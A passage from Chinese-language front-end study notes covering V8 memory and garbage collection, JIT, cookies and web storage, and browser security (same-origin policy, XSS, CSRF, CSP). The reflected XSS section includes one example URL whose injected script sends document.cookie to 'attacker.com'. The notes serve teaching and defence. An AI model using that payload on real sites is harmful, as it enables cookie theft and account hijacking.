- addAll 函数被调用。编译该函数创建一个执行上下文，将该函数的执行上下文压入栈。d = undefined；result = undefined。
- 执行 addAll 函数代码。d 赋值为 10。
- add 函数被调用。编译该函数创建一个执行上下文，将该函数的执行上下文压入栈。
- 执行 add 函数代码。返回 9，add 函数执行上下文从调用栈中弹出。addAll 中 result 被赋值为 9。
- addAll 返回 21，addAll 函数执行上下文从调用栈中弹出。这时候调用栈中只剩下全局执行上下文了。
栈空间和堆空间
-
js 中的变量存储在 栈空间 和 堆空间中。函数的执行上下文会存储在栈空间中，执行上下文中的原始类型的值（布尔，数字，字符串）直接保存在栈空间中，而引用类型的值（对象）保存在堆空间中，栈空间中只保存引用类型在堆中的地址。栈来维护程序执行期间上下文的状态，如果所有的数据都存放在栈空间里面，那么会影响到上下文切换的效率，进而又影响到整个程序的执行效率。
-
栈内存的回收：调用栈在执行每一个函数的时候，有一个记录当前执行状态的指针（ESP），当一个函数执行结束，ESP 向下移动，指向另一个函数的执行上下文，上面函数的执行上下文虽然保存在栈内存中，但是已经是无效内存了。如果再有新的函数被调用，这块内存会直接被覆盖掉。
-
堆内存的回收：
- 当栈中的 ESP 指针移动的时候，调用结束的执行上下文就无效了，但是它引用的引用类型数据依然占用堆中的空间。
- 代际假说：
- 大部分对象在内存中存在的时间很短，简单来说，就是很多对象一经分配内存，很快就变得不可访问；
- 不死的对象，会活得更久。
- V8 中会把堆分为 新生代 和 老生代 两个区域
- 新生代中存放的是生存时间短的对象。副垃圾回收器，主要负责新生代的垃圾回收。
- 老生代中存放的生存时间久的对象。主垃圾回收器，主要负责老生代的垃圾回收。
- 不论什么类型的垃圾回收器，它们都有一套共同的执行流程：
- 标记空间中活动对象和非活动对象。
- 回收非活动对象所占据的内存。
- 内存整理
- 副垃圾回收器：
- 新生代中用 Scavenge 算法来处理。新生代空间对半划分为两个区域，一半是对象区域，一半是空闲区域
- 新加入的对象都会存放到对象区域，当对象区域快被写满时，就需要执行一次垃圾清理操作。
- 在垃圾回收过程中，首先要对对象区域中的垃圾做标记；标记完成之后，就进入垃圾清理阶段，副垃圾回收器会把这些存活的对象复制到空闲区域中，同时它还会把这些对象有序地排列起来，所以这个复制过程，也就相当于完成了内存整理操作，复制后空闲区域就没有内存碎片了。
- 完成复制后，对象区域与空闲区域进行角色翻转，也就是原来的对象区域变成空闲区域，原来的空闲区域变成了对象区域。这样就完成了垃圾对象的回收操作，同时这种角色翻转的操作还能让新生代中的这两块区域无限重复使用下去。
- 因为新生区的空间不大，所以很容易被存活的对象装满整个区域。为了解决这个问题，JavaScript 引擎采用了对象晋升策略，也就是经过两次垃圾回收依然还存活的对象，会被移动到老生区中。
- 主垃圾回收器：
- 标记 - 清除（Mark-Sweep）：遍历调用栈，标记活动对象和垃圾数据。然后将垃圾数据清除掉。
- 标记 - 整理（Mark-Compact）：遍历调用栈，标记活动对象和垃圾数据，存活的对象都向一端移动，然后直接清理掉端边界以外的内存。
全停顿和增量标记
JavaScript 是运行在主线程之上的，一旦执行垃圾回收算法，都需要将正在执行的 JavaScript 脚本暂停下来，待垃圾回收完毕后再恢复脚本执行。我们把这种行为叫做全停顿（Stop-The-World）。
为了降低老生代的垃圾回收而造成的卡顿，V8 将标记过程分为一个个的子标记过程，同时让垃圾回收标记和 JavaScript 应用逻辑交替进行，直到标记阶段完成，我们把这个算法称为增量标记（Incremental Marking）算法。
使用增量标记算法，可以把一个完整的垃圾回收任务拆分为很多小的任务，这些小的任务执行时间比较短，可以穿插在其他的 JavaScript 任务中间执行，这样当执行一些动画效果时，就不会让用户因为垃圾回收任务而感受到页面的卡顿了。
js如何执行
- 生成抽象语法树（AST）和执行上下文
- 分词（tokenize），又称为词法分析。将源码拆解成一个个 token。
- 解析（parse），又称为语法分析。将 token 转换成 AST。
- 根据 AST 生成执行上下文。
- 生成字节码。解释器 Ignition 根据 AST 生成字节码，并解释执行字节码。
- 字节码就是介于 AST 和机器码之间的一种代码。但是与特定类型的机器码无关，字节码需要通过解释器将其转换为机器码后才能执行。使用字节码可以减少系统的内存使用。一开始 V8 并没有字节码，而是直接将 AST 转换为机器码。随着浏览器在手机上的广泛普及，内存占用问题也暴露出来。
- 执行代码。如果有一段第一次执行的字节码，解释器 Ignition 会逐条解释执行。到了这里，相信你已经发现了，解释器 Ignition 除了负责生成字节码之外，它还有另外一个作用，就是解释执行字节码。在 Ignition 执行字节码的过程中，如果发现有热点代码（HotSpot），比如一段代码被重复执行多次，这种就称为热点代码，那么后台的编译器 TurboFan 就会把该段热点的字节码编译为高效的机器码，然后当再次执行这段被优化的代码时，只需要执行编译后的机器码就可以了，这样就大大提升了代码的执行效率。字节码配合解释器和编译器，被称为即时编译（JIT）。
cookie 和 localStorage 和 sessionStorage
cookie
cookie 有两种方式可以设置
- 服务器在给客户端响应的时候，可以设置 Set-Cookie 响应头，当响应到达浏览器时 cookie 就被自动存入浏览器中。之后每一次新请求浏览器都会将刚才存下的 cookie 数据加入到请求的 Cookie 请求头中发送给服务器。
// 响应头
// Set-Cookie: <cookie名>=<cookie值>
// 请求头
// Cookie: yummy_cookie=choco; tasty_cookie=strawberry
- 另外一种是客户端自己设置，通过 document.cookie 可以获取和设置 cookie。
// 获取所有 cookie
allCookies = document.cookie;
// 设置 cookie
document.cookie = newCookie;
// 用这个方法只能一次设置一个 cookie
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
console.log(document.cookie);
// 显示: name=oeschger;favorite_food=tripe
// 利用正则获取某个 cookie
document.cookie = "test1=Hello";
document.cookie = "test2=World";
var myCookie = document.cookie.replace(/(?:(?:^|.*;\s*)test2\s*\=\s*([^;]*).*$)|^.*$/, "$1");
alert(myCookie); // World
// 正则分析
// /(?:(?:^|.*;\s*)test2\s*\=\s*([^;]*).*$)|^.*$/
// ?; 是非捕获分组
// (?:^|.*;\s*) 这里匹配开头什么字符都没有，或者是多个字符和一个分号（;）再加上零个或多个空格。这里匹配的是 test2 之前的其他 cookie
// test2\s*\=\s* 这里匹配 test2 对应 cookie 的名字和等于号
// ([^;]*) 这里匹配 test2 cookie 的值，是零个或多个 非分号 的字符串，是捕获分组，会被捕获到作为 $1
// .*$ 这里匹配 test2 cookie 之后的其他 cookie 值
// ^.*$ 如果捕获不到 test2 的值，那么就匹配到整个字符串（从开头到结尾）
// 匹配结束之后用捕获到的 test2 的值 $1 替换掉整个字符串。
下面是 mdn 提供的一个 cookie 的小框架
/*\
|*|
|*| :: cookies.js ::
|*|
|*| A complete cookies reader/writer framework with full unicode support.
|*|
|*| https://developer.mozilla.org/en-US/docs/DOM/document.cookie
|*|
|*| This framework is released under the GNU Public License, version 3 or later.
|*| http://www.gnu.org/licenses/gpl-3.0-standalone.html
|*|
|*| Syntaxes:
|*|
|*| * docCookies.setItem(name, value[, end[, path[, domain[, secure]]]])
|*| * docCookies.getItem(name)
|*| * docCookies.removeItem(name[, path], domain)
|*| * docCookies.hasItem(name)
|*| * docCookies.keys()
|*|
\*/
var docCookies = {
// 获取某个 cookie
getItem: function (sKey) {
return decodeURIComponent(document.cookie.replace(new RegExp("(?:(?:^|.*;)\\s*" + encodeURIComponent(sKey).replace(/[-.+*]/g, "\\$&") + "\\s*\\=\\s*([^;]*).*$)|^.*$"), "$1")) || null;
},
// 设置新 cookie
// sKey 要创建或者覆盖的 cookie 的名字
// sValue cookie 的值
// vEnd cookie 的 Max-Age（有效期，单位秒） 或者 Expires（过期时间）
// sPath 路径 如果没有定义，默认为当前文档位置的路径
// sDomain 域名 如果没有定义，默认为当前文档位置的路径的域名部分
// bSecure cookie 只通过 https 协议传输
setItem: function (sKey, sValue, vEnd, sPath, sDomain, bSecure) {
// 如果没有传 cookie 名字或者 cookie 名字中有下面这些关键词，就返回 false
if (!sKey || /^(?:expires|max\-age|path|domain|secure)$/i.test(sKey)) { return false; }
var sExpires = "";
// 如果传递了 Max-Age 或者 Expires，就根据数据类型判断生成 ;expires=xxx 字符串 或 ;max-age=xxx 字符串
if (vEnd) {
switch (vEnd.constructor) {
// 如果 vEnd 传入的是 Number, 则设置 max-age
case Number:
sExpires = vEnd === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + vEnd;
break;
// 如果是 String ，则设置 expires
case String:
sExpires = "; expires=" + vEnd;
break;
// 如果是 Date 对象，则设置 expires
case Date:
sExpires = "; expires=" + vEnd.toUTCString();
break;
}
}
// 给 document.cookie 赋值设置新的一条 cookie
// 顺序 cookie名字=cookie值;expres=xxx;max-age=xxx;domain=xxx;path=xxx;secure
document.cookie = encodeURIComponent(sKey) + "=" + encodeURIComponent(sValue) + sExpires + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "") + (bSecure ? "; secure" : "");
return true;
},
// 删除某个 cookie
removeItem: function (sKey, sPath, sDomain) {
// 如果没有这个 cookie ，返回 false
if (!sKey || !this.hasItem(sKey)) { return false; }
// 设置这个 cookie 的过期时间为 Unix 纪元时间 UTC 1970年1月1日0点，即立即过期。注意还要加上对应的 path 和 domain
document.cookie = encodeURIComponent(sKey) + "=; expires=Thu, 01 Jan 1970 00:00:00 GMT" + ( sDomain ? "; domain=" + sDomain : "") + ( sPath ? "; path=" + sPath : "");
return true;
},
// 判断是否存在某个 cookie
hasItem: function (sKey) {
return (new RegExp("(?:^|;\\s*)" + encodeURIComponent(sKey).replace(/[-.+*]/g, "\\$&") + "\\s*\\=")).test(document.cookie);
},
// 获取所有 cookie 名字组成的数组
keys: function () { /* optional method: you can safely remove it! */
var aKeys = document.cookie.replace(/((?:^|\s*;)[^\=]+)(?=;|$)|^\s*|\s*(?:\=[^;]*)?(?:\1|$)/g, "").split(/\s*(?:\=[^;]*)?;\s*/);
for (var nIdx = 0; nIdx < aKeys.length; nIdx++) { aKeys[nIdx] = decodeURIComponent(aKeys[nIdx]); }
return aKeys;
}
};
设置 cookie 组成部分
设置一条 cookie 的时候，一条 cookie 的组成部分按顺序如下：
- cookie名字=cookie值 （cookie 的名字和值）
- ;expires=xxx;max-age=xxx （cookie 的过期时间或有效期。过期时间是字符串或者 Date 对象，有效期是数字，单位秒）
- ;domain=xxx （cookie 的域名。默认为当前文档位置的路径的域名部分）
- ;path=xxx （cookie 的路径。默认为当前文档位置的路径）
- ;secure （cookie 是否只通过 https 协议传输，这个没有值）
cookie 生命周期
Max-Age（有效期，单位秒） 或者 Expires（过期时间）
- 会话期 Cookie，不设置 Max-Age 或者 Expires 时，浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。
- 持久性 Cookie，生命周期取决于过期时间（Expires）或有效期（Max-Age）指定的一段时间。
cookie 安全
- 标记为 Secure 的 cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
- Document.cookie 无法访问带有 HttpOnly 属性的 cookie；此类 cookie 仅作用于服务器
- HttpOnly 和 Secure 都可以在后台设置 Set-Cookie 响应头的时候设置，在后面加上即可。
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
cookie 作用域
- Domain 指定了哪些域名可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了 Domain，则一般包含子域名。
- Path 标识指定了域名下的哪些路径可以接受 Cookie
- SameSite Cookie 允许服务器要求某个 cookie 在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。
- SameSite=None 浏览器会在同站请求、跨站请求下继续发送 cookies，不区分大小写。
- SameSite=Strict 浏览器将只在访问相同站点时发送 cookie。
- SameSite=Lax 在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
Set-Cookie: key=value; SameSite=Strict
localStorage 和 sessionStorage
localStorage 和 sessionStorage 类似，都是存在当前域名下的一个 storage 对象。区别在于：存储在 localStorage 的数据可以长期保留；而当页面会话结束，也就是说，当页面被关闭时，存储在 sessionStorage 的数据会被清除。
localStorage 中的键值对总是以字符串的形式存储，意味着数值类型会自动转化为字符串类型。
// sessionStorage 的语法和 localStorage 一样
localStorage.setItem('myCat', 'Tom'); // 设置
let cat = localStorage.getItem('myCat'); // 获取
localStorage.removeItem('myCat'); // 移除
localStorage.clear(); //移除所有
localStorage.key(0); // 获取第 n 个的键名 myCat
localStorage.length；// storage 中数据长度
// 也可以这样设置，它们是等价的
localStorage.colorSetting = '#a4509b';
localStorage['colorSetting'] = '#a4509b';
localStorage.setItem('colorSetting', '#a4509b');
响应 storage 变化
Storage 对象发生变化时（即创建/更新/删除数据项时，重复设置相同的键值不会触发该事件，Storage.clear() 方法至多触发一次该事件），StorageEvent 事件会触发。
事件在同一个域下的不同页面之间触发，即在 A 页面注册了 storge 的监听处理，只有在跟 A 同域名下的 B 页面操作 storage 对象，A 页面才会被触发storage 事件。
window.addEventListener('storage', function(e) {
document.querySelector('.my-key').textContent = e.key;
document.querySelector('.my-old').textContent = e.oldValue;
document.querySelector('.my-new').textContent = e.newValue;
document.querySelector('.my-url').textContent = e.url;
document.querySelector('.my-storage').textContent = e.storageArea;
});
下面是是 storage 事件触发后，回调的参数 e 的属性：
| 属性名 | 描述 |
|---|---|
| key | 该属性代表被修改的键值。当被 clear() 方法清除之后该属性值为 null。（只读） |
| newValue | 该属性代表修改后的新值。当被 clear() 方法清理后或者该键值对被移除，newValue 的值为 null 。（只读） |
| oldValue | 该属性代表修改前的原值。在设置新键值对时由于没有原始值，该属性值为 null。（只读） |
| storageArea | 被操作的 storage 对象。（只读） |
| url | key 发生改变的对象所在文档的 URL 地址。（只读） |
三者的异同
-
生命周期
- cookie：可设置失效时间（Expires）和有效期（Max-Age），没有设置的话，默认关闭浏览器后失效
- localStorage：除非被手动清除，否则将会永久保存
- sessionStorage： 仅在当前网页会话下有效，关闭页面或浏览器后就会被清除
-
存放数据大小
- cookie：4kb 左右
- localStorage 和 sessionStorage：可以保存 5mb 的信息。
-
http 请求
- cookie：每次都会携带在 HTTP 头中，如果使用 cookie 保存过多数据会带来性能问题
- localStorage 和 sessionStorage：仅在客户端（即浏览器）中保存，不参与和服务器的通信
-
易用性：
- cookie：需要程序员自己封装，源生的 cookie 接口不友好
- localStorage 和 sessionStorage：源生接口可以接受，亦可再次封装来对 Object 和 Array 有更好的支持
应用场景
-
从安全性来说，因为每次 http 请求都会携带 cookie 信息，这样无形中浪费了带宽，所以 cookie 应该尽可能少的使用，另外 cookie 还需要指定作用域，不可以跨域调用，限制比较多。但是用来识别用户登录来说，cookie 还是比 storage 更好用的。其他情况下，可以使用 storage，就用 storage。
-
storage 在存储数据的大小上面秒杀了 cookie，现在基本上很少使用 cookie 了。
-
localStorage 和 sessionStorage 唯一的差别一个是永久保存在浏览器里面，一个是关闭网页就清除了信息。localStorage 可以用来夸页面传递参数，sessionStorage 用来保存一些临时的数据，防止用户刷新页面之后丢失了一些参数。
浏览器安全
同源策略
如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。
http://store.company.com/dir/page.html
http://store.company.com/dir2/other.html // 同源，路径不同
https://store.company.com/secure.html // 不同源，协议不同
http://news.company.com/dir/other.html // 不同源，域名不同
http://store.company.com:81/dir/etc.html // 不同源，端口不同
同源体现在三个方面
- DOM 层面。只有同源的页面才能通过 window.opener 拿到上一个页面的 window 对象去修改 dom
- 数据层面。Cookie、IndexDB、LocalStorage 这些数据在同源的页面下才能访问
- 网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。
跨站脚本攻击（XSS）
XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
XSS 可以做什么
- 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
- 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。
XSS 如何注入
- 存储型 XSS 攻击
首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；然后用户向网站请求包含了恶意 JavaScript 脚本的页面；当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。
例如，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞。起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一个引入了外部 js 代码的 script 标签。喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中。然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行，这样就可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器。黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号，并利用用户账号进行一些恶意操作。
- 反射型 XSS 攻击
用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接。Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。
例如，某个网站的错误页面是简单获取 url 参数中的 msg 参数然后插入错误页面中显示。那么黑客就可以诱使用户点击一个联机：https//somesite.com/error.html?msg=<script>var+i=newImage;i.src="http://attacker.com"%2bdocument.cookie;</script>。这样用户点击后后面的恶意代码就会执行，会生成一个图片，然后请求黑客的网址将 cookie 上传至黑客的服务器。
- 基于 DOM 的 XSS 攻击
基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。
如何阻止 XSS
- 服务器对输入脚本进行过滤或转码。将请求提交内容中的 js 代码过滤掉，可以进行转义。
- CSP（Content-Security-Policy 内容安全策略）。
- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。
- 使用 HttpOnly 属性。HttpOnly 是服务器通过 HTTP 响应头来设置的。set-cookie 属性值最后使用 HttpOnly 来标记该 Cookie。使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。
针对 XSS 前端和后端验证的必要性
问题： 如果前端对表单数据做了验证，那么后端还需要做验证吗？
答：有必要。
- 后端还需要做验证是因为后端接口有可能会脱离前端被请求，如果不做验证，那么就相当于裸奔了，很容易被攻击。
- 前端做验证可以提高用户体验，不需要等待服务器响应回来后再提示错误，而且可以减少没有必要的请求。
CSRF
CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。
CSRF 攻击方式
- 自动发起 Get 请求。假设网站有一个转账的接口，打开黑客的链接后，将请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的钱就被转移到黑客的账户上去了。
- 自动发起 POST 请求。黑客在页面中创建一个隐藏的表单，用户打开黑客链接后，隐藏的表单会自动执行提交执行转账操作。
- 引诱用户点击链接。链接的地址其实是调用转账接口，点击后就会执行转账操作。
和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。
为什么黑客的网站和要攻击的网站不同域，请求也可以获取到 cookie？
虽然黑客网站和目标网站域名不同，是跨域的，但是 img 标签的 src 可以加载不同域名的数据发起 get 请求，并携带对应域名的 cookie，而表单一般用于提交数据，可以跨域发请求，只是拿不到响应而已，所以浏览器不限制利用表单发送跨域请求。在不同域名页面下使用 img 和 表单请求携带的 cookie 被称为第三方 cookie。
如何防止 CSRF
- 充分利用好 Cookie 的 SameSite 属性。在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项。SameSite 选项通常有 Strict、Lax 和 None 三个值。
- Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
- Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
- 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。
- 验证请求的来源站点。Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性。Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。
- CSRF Token。
- 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。
- 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。
csp
概念
csp 全称 Content-Security-Policy（内容安全策略）用来防止 xss 跨域脚本攻击，它允许站点管理者控制浏览器能够为指定的页面加载哪些资源，它的指令的值主要设置的是从指定域名加载资源。它有两种用法：
- 在 html 的 meta 标签中设置
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
- 服务器返回 Content-Security-Policy 响应头
一般情况都使用服务器返回响应头的形式来设置。
指令
Content-Security-Policy 有多个指令。下面列举一些常见的指令：
- font-src 设置允许通过 @font-face 加载的字体的源
- frame-src 设置允许通过类似 iframe 标签加载的内嵌内容的源
- img-src 加载图片的源
- script-src 加载 js 文件的源
- media-src 加载媒体文件（audio video 标签）的源
- style-src 加载 css 文件的源
- default-src 为其他指令设置默认的值，如果有指令没有设置则取 default-src 的值
指令的语法如下：
Content-Security-Policy: style-src <source>;
Content-Security-Policy: style-src <source> <source>;
不同的指令后面的值都是相同的，都有如下几种值：
<host-source><scheme-source>- 'self'
- 'unsafe-eval'
- 'unsafe-hashes'
- 'unsafe-inline'
- 'none'
'nonce-<base64-value>''<hash-algorithm>-<base64-value>'- 'strict-dynamic'
- 'report-sample'
| 指令的值 | 描述 |
|---|---|
<host-source> | 域名。可以加上可选的协议和端口号。域名前面可以使用 * 表示未知的域名部分，最后面也可以使用 * 表示任意合法的端口号。 |
<scheme-source> | 协议。例如 http: 或者 https: 。必须带上后面的冒号。也可以指定其他数据协议，例如 data: mediastream: blob: filesystem: |
| 'self' | 只能加载和当前页面同域名的地址。协议和主机和端口号必须一样。使用这个值的时候必须带上单引号 |
| 'unsafe-eval' | 允许使用 eval() 或者类似的方法从字符串创建代码。使用这个值的时候必须带上单引号 |
| 'unsafe-hashes' | 允许开启指定的行内事件处理器。 |
| 'unsafe-inline' | 允许使用行内的资源。例如 script 元素 javascript:; 行内事件处理器 行内 style 元素。使用这个值的时候必须带上单引号 |
| 'none' | 不匹配任何 url |
'nonce-<base64-value>' | 使用加密随机数（使用一次的数字）的特定内联脚本组成的允许列表。服务器每次传输策略时都必须生成唯一的随机数值。提供不可猜测的随机数至关重要，否则绕过资源的策略是微不足道的。指定 nonce 会使现代浏览器忽略 'unsafe-inline'，但它仍然可以为没有 nonce 支持的旧浏览器设置。 |
'<hash-algorithm>-<base64-value>' | js 脚本或 css 样式的 sha256、sha384 或 sha512 哈希值。此源的使用由用破折号分隔的两部分组成：用于创建散列的加密算法和 js 脚本或 css 样式的 base64 编码散列。生成哈希时，不要包含 script 或 style 标签，并注意大小写和空格很重要，包括前导或尾随空格。在 CSP 2.0 中，这仅适用于内联脚本。CSP 3.0 允许在script-src外部脚本的情况下使用它。 |
| 'strict-dynamic' | strict-dynamic 允许将信任关系传递给动态生成的脚本，也就是说，strict-dynamic 允许js 动态添加的脚本执行，而忽略其他任何允许列表或源表达式。 |
| 'report-sample' | 要求在违规报告中包含违规代码的样本。 |
使用
- 先在项目中使用 Content-Security-Policy-Report-Only 而不是直接使用 Content-Security-Policy。因为 Content-Security-Policy-Report-Only 会将违反政策的情况发送 post 请求到指定 uri 上报。当出现违反策略的情况只会上报，不会阻塞资源加载。
Content-Security-Policy: img-src www.qq.com; report-uri https://a.b.c/report
当设置这个 header 的页面加载 www.qq.com 之外的图片的时候，将会阻塞加载，并在控制台报错，再上报到 https://a.b.c/report。
因此页面改造第一步是先通过仅仅上报的头来观察一段时间，看看哪些资源哪些情况是不符合 CSP 的，漏掉的加上，不合理的干掉。
- 观察一段时间后，自己的上报站点如果有 CSP 报错，那么去解决掉，然后继续观察一段时间重复同样的步骤，直到没有CSP 错误。当上报站点再也没有 CSP 错误或者错误比较少能接受范围内，将 Content-Security-Policy-Report-Only 换成 Content-Security-Policy 再次上线。
csrf
csrf （Cross-site request forgery 跨域请求伪造）发生的时候，黑客并不知道 cookie 的具体内容，只是使用了用户浏览器上的 cookie 去请求目标网站，因此，主要有两种方式来预防：
- 阻止其他域的请求
- 检测请求的来源网站是否同源
- Samesite Cookie
- 发请求需要携带只有在本域下才能获取到的参数
- csrf token
- 双重 cookie 验证
检测请求的来源网站是否同源
每个请求都会携带 Origin 和 Referrer 请求头代表了请求的来源域名。这两个请求头是浏览器自动加上的，前端不能控制。
如果 Origin 存在，那么直接使用 Origin 中的字段确认来源域名就可以。但是有两种情况 Origin 不存中：
- IE 11 不会在跨站 CORS 请求上添加 Origin 头
- 在 302 重定向之后 Origin 不包含在重定向的请求
Referrer 也用来记录请求的来源页面地址。对于 Ajax 请求，图片和 script 等资源请求，Referrer 为发起请求的页面地址。对于页面跳转，Referrer 为打开页面历史记录的前一个页面地址。那么也可以通过 Referrer 来判断请求的来源域名是否同源。但是 Referrer Policy 允许开发者控制 Referrer 如何发送。有如下几种设置 Referrer 的方式：
- Referrer-Policy 请求头
- 页面里设置 referrer 的 meta 标签 例如：
<meta name="referrer" content="no-referrer"> - html 元素设置 referrerpolicy 属性 例如：
<a href="http://example.com" referrerpolicy="origin">
因此可以发现黑客可以通过设置 Referrer 政策隐藏请求的 Referrer 。
另外在以下情况下 Referrer 没有或者不可信：
- IE6、7 下使用 window.location.href = url 进行界面的跳转，会丢失 Referer。
- IE6、7 下使用 window.open，也会缺失 Referer。
- HTTPS 页面跳转到 HTTP 页面，所有浏览器 Referer 都丢失。
- 点击 Flash 上到达另外一个网站的时候，Referer 的情况就比较杂乱，不太可信。
Samesite
Set-Cookie 响应头的 Samesite 属性使得 cookie 只能作为第一方 Cookie，不能作为第三方 Cookie。
- Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
- Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
- 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。
如果设置为 Strict 则可以防止绝对多数 csrf 攻击，但是体验不好。例如用户从百度搜索页面甚至天猫页面的链接点击进入淘宝后，淘宝不会是登录状态，因为淘宝的服务器不会接受到那个 Cookie，其它网站发起的对淘宝的任意请求都不会带上那个 Cookie。
如果 Samesite 被设置为 Lax，那么其他网站通过页面跳转过来的时候可以使用 Cookie，可以保障外域连接打开页面时用户的登录状态。但相应的，其安全性也比较低。
csrf token
所有的用户请求都携带一个 csrf 攻击者无法获取到的 Token。服务器通过校验请求是否携带正确的 Token，来把正常的请求和攻击的请求区分开，也可以防范 csrf 的攻击。
-
将 csrf Token 输出到页面中。首先，用户打开页面的时候，服务器需要给这个用户生成一个 Token，该 Token 通过加密算法对数据进行加密，一般 Token 都包括随机字符串和时间戳的组合，显然在提交时 Token 不能再放在 Cookie 中了，否则又会被攻击者冒用。因此，为了安全起见 Token 最好还是存在服务器的 Session 中，之后在每次页面加载时，使用 JS 遍历整个 DOM树，对于 DOM 中所有的 a 和 form 标签后加入 Token。这样可以解决大部分的请求，但是对于在页面加载之后动态生成的 HTML 代码，这种方法就没有作用，还需要程序员在编码时手动添加 Token。
-
页面提交的请求携带这个 Token。a 链接就在链接后面加上 ?csrfToken=xxx ，form 表单请求就添加隐藏域参数加上 csrftoken 参数。
-
服务器验证 Token 是否正确。将请求传递的 Token 和 Session 中的 Token 比较。如果匹配，返回响应，如果不匹配，响应终止。
双重 Cookie
